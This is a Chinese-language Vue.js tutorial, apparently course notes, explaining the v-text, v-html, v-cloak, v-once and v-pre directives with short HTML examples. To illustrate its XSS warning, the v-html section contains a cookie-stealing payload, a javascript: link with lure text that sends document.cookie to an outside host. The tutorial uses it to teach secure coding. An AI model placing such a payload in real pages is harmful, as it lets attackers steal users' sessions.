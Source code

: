 ## v-text

1.作用：向其所在的节点中渲染文本内容。

 2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。

```html
	<div id="root">
			<div>你好，{{name}}</div>
			<div v-text="name"></div>
			<div v-text="str"></div>
	</div>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>'
			}
		})
	</script>
```

## v-html

v-html指令：

​            1.作用：向指定节点中渲染包含html结构的内容。

​            2.与插值语法的区别：

​                  (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。

​                  (2).v-html可以识别html结构。

​            3.**严重注意：v-html有安全性问题！！！！**

​                  (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

​                  (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
		<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
```

## v-cloak

v-cloak指令（没有值）：

​            1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。

​            2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
		<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
```

## v-once

v-once指令：

​            1.v-once所在节点在初次动态渲染后，就视为静态内容了。

​            2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```html
		<div id="root">
			<h2 v-once>初始化的n值是:{{n}}</h2>
			<h2>当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
```

## v-pre

v-pre指令：

​          1.跳过其所在节点的编译过程。

​          2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
		<div id="root">
			<h2 v-pre>Vue其实很简单</h2>
			<h2 >当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
```

